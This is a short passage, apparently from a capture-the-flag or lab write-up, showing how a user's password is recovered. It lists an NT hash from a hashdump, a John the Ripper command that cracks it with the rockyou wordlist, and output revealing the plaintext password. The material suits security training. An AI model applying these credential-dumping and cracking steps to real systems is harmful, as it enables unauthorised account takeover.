 ## Getting Jon's password
* hashdump - `ffb43f0de35be4d9917ac0cc8ad57f8d`
* cracking jon's password - `john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hash.txt`
```
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)
```

